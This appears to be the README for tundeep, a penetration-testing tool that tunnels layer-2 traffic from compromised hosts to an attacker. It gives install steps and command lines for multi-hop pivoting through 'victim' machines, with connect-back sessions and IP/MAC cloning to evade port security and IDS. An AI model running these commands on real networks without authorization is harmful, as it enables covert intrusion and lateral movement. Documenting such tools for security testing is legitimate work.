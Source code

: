 	TUNDEEP
	Adam Palmer

    This program is free software: you can redistribute it and/or modify
    it under the terms of the GNU General Public License as published by
    the Free Software Foundation, either version 3 of the License, or
    (at your option) any later version.

    This program is distributed in the hope that it will be useful,
    but WITHOUT ANY WARRANTY; without even the implied warranty of
    MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
    GNU General Public License for more details.

    You should have received a copy of the GNU General Public License
    along with this program.  If not, see <http://www.gnu.org/licenses/>.

Name: 		    tundeep v1.0
Author: 	    Adam Palmer (npn)
Author Email: 	adam@adampalmer.me
Author URL:	    https://www.adampalmer.me/
README:		    https://www.adampalmer.me/iodigitalsec/tundeep/

Source:		http://www.cis.syr.edu/~wedu/seed/Labs/VPN/files/simpletun.c
Source:		Various stackoverflow posts
Source:		Libpcap documentation
Source:		Beej's Network Guide
Source:		http://www.logix.cz/michal/devel/ (getaddrinfo)

Please direct questions, comments, criticism and bug reports to adam@adampalmer.me. 

Contents:
=========
1. Purpose
2. Installation
3. Scenario
4. Usage
	4a. TCP Mode
	4b. UDP Mode
	4c. IPv6 Mode
	4d. Misc
5. Changelog
6. The future

1. Purpose:
===========

This is a network tunnelling tool. 
For pivoting/tunnelling deeper into a target network, we have a couple of options;
Option 1 - Metasploit's 'autoroute' module. Disadvantages: Works great, but only works from within metasploit. No use for running external tools.
Option 2 - Metasploit's portfwd module/iptables/simpleproxy. Disadvantages: Only forwards specified single layer 3 UDP/TCP ports.
Option 3 - Proxychains/ssh -D SOCKS tunnelling. Disadvantages: Proxychains is a hack in itself, and only supports layer 3 TCP.
Option 4 - Implement a VPN server and set up bridging on your victim. Disadvantages: disasterous idea

This tool presents a 'tap0' interface for your target network on your local machine. On the target end, it does not require drivers/kernel
modules to be installed beyond libpcap. This tool supports ARP and ARP scanning/poisoning on your target network no matter how many layers deep you tunnel. 

This tool should support any layer 2 ethernet protocol. Code has been borrowed from various sources including those above. As we have a tap interface now bound to the
remote network, we are able to run any tools that we wish, as if we were directly connected to the target network.


2. Installation:
=============

-D_LINUX adds tun/tap support in the makefile, -D_COMPRESS adds zlib compression support

Tested on Debian Squeeze 32bit and 64bit, and Windows XP Pro. This tool requires libpcap/winpcap

On Windows, you'll need Cygwin and all the relevant tools such as libc, make, gcc.

On Windows:
[Untested] Guide to winpcap silent install: http://paperlined.org/apps/wireshark/winpcap_silent_install.html
[Tested] libwpcap support in cygwin: http://mathieu.carbou.free.fr/wiki/?title=Winpcap_/_Libpcap

To compile and run on Kali:
    a. apt-get install zlib1g-dev libpcap-dev
    b. git clone https://github.com/iodigitalsec/tundeep
    c. cd tundeep
    d. make
    e. ./tundeep

You can change debug levels via the DEBUG variable in def.h


3. Scenario:
============
[Attacker 192.168.200.40 (eth0)]-----[192.168.200.41(eth0) VICTIM 1 10.0.0.5(eth1)]------[10.0.0.10(eth0) VICTIM2 10.10.10.20(eth1)]--------[10.10.10.21(eth0) VICTIM3]

This tool will bring up a tap0 interface on the attacking machine, tunnelled via packet injection on the remote end to the target network.

We have two main strategies. Looking at the scenario above, our first step is to pivot onto the 10.0.0.5 interface of Victim 1. We have two options:

1. Match Victim1's eth1 IP and MAC exactly on our own tap0 interface specifying -x, -y and -u on the attacking machine. This is the least detectable as it does not bring up any new IP
	or MAC addresses on the target network and we can evade port security. It may however interfere with legitimate traffic on Victim 1. 
2. The second option is to assign our own IP and/or MAC to be tunnelled through. This is going to be more reliable, but less stealthy and may trigger IDS/switch/port security alerts.

The next consideration is that all traffic that Victim1 receives on eth1 is tunnelled back to us. This will create network congestion at minimum, and service unavailability or worse. 
It's not advisable to run this on a heavy traffic production environment. Also consider where you run this tool from. Running this where the connection between attacker and victim1's eth0
is slower than victim1's eth1 and it's peers is a bad idea.

The final option if this is really a problem, is using the bpf. I can think of two useful cases for the bpf -
1. Specify a new IP to bring up on the target network via -x/-y and on both sides use -b "host $ip".
2. Retain the Victim's IP, and use "tcp port $port" on both sides to specify a particular port you wish to tunnel through.


4. Usage:
=========
4a. TCP Mode:
=============
On our attacking machine -
1. 	tundeep -s -t tap0 -h 0.0.0.0 -p 5000 -x 10.0.0.5 -y 255.255.255.0 -u 00:0c:29:c6:44:02
	Here we will bring up a tap0 interface on our machine with the same MAC (-u) and IP/Mask (-x/-y) as the network we want to pivot to (Victim1's eth1).

	On our victim 1-
	tundeep -i eth1 -h 192.168.200.40 -p 5000 -c
	Connect back to our attacker on port 5000.

	We can now ping 10.0.0.10, i.e. victim2 directly from our machine. TCP/UDP/ICMP and ARP have all been tested. 

2. 	Now to tunnel deeper. On our attacking machine -
	tundeep -s -t tap1 -h 0.0.0.0 -p 5001 -x 10.10.10.20 -y 255.255.255.0 -u 00:0c:29:df:f0:ac
	Here we will bring up a tap1 interface on our attacking machine, with the same MAC/IP as Victim 2's eth1
	On our victim 2-
	tundeep -i eth1 -h 10.0.0.5 -p 5001 -c

	Now we can ping 10.10.10.21, i.e. victim 3. We can continue tunnelling as deep as we need.


4b. UDP Mode:
=============
There's no client and server side. Each side needs it's endpoint specified via -e and it's listen IP via -h. 
To use the scenarios above. On our side:

1.	tundeep -d -e 192.168.200.41 -t tap0 -h 0.0.0.0 -p 5000 -x 10.0.0.5 -y 255.255.255.0 -u 00:0c:29:c6:44:02
	and on the victim:
	tundeep -d -e 192.168.200.40 -i eth1 -h 0.0.0.0 -p 5000

2.	tundeep -d -e 10.0.0.10 -t tap1 -h 0.0.0.0 -p 5001 -x 10.10.10.20 -y 255.255.255.0 -u 00:0c:29:df:f0:ac
	and on the victim:
	tundeep -d -e 10.0.0.5 -i eth1 -h 192.168.200.40 -p 5001

4c. IPv6 Mode:
==============
There are two methods to utilize IPv6. The sniffing and injection portion works at layer 2 and is therefore IP version independant.
Specifying -T on the tap node specifies IPv6 address usage. In that case -x specifies the IPv6 IP and -y specifies the prefix length.
i.e. ./tundeep -T tap0 -h 0.0.0.0 -p 5000 -s -x fe80::80aa:2aff:fe0b:383f -y 64
Using this option, we can tunnel IPv6 over an existing IPv4 socket/network.

The next option is in tunneling IPv4 over an existing IPv6 network, -6 option puts the socket into IPv6 mode:
./tundeep -T tap0 -h "::0" -p 5000 -s -x 192.168.5.5 -y 255.255.255.0

Of course, -T and -6 can be used together for full IPv6.


4d. Misc:
=========

5. Changelog:
=============
tundeep_v0.1a_20130910:
	- Initial Release

tundeep_v0.2a_20130916:
	- IPv6 support (-6, -T)
	- Compression support (-C) - must be enabled on both sides
	- Better error checking and debugging
	- Misc bug fixes and code improvements
	- Makefile improvements to detect Cygwin/Linux without manual edits
	- README updates
	- Added default checksum feature (-K disables) - added overhead, improved reliability. Must be disabled on both sides

6. The Future:
===============
Future release plans -
- Code cleanup
- MAC/IP mangling support
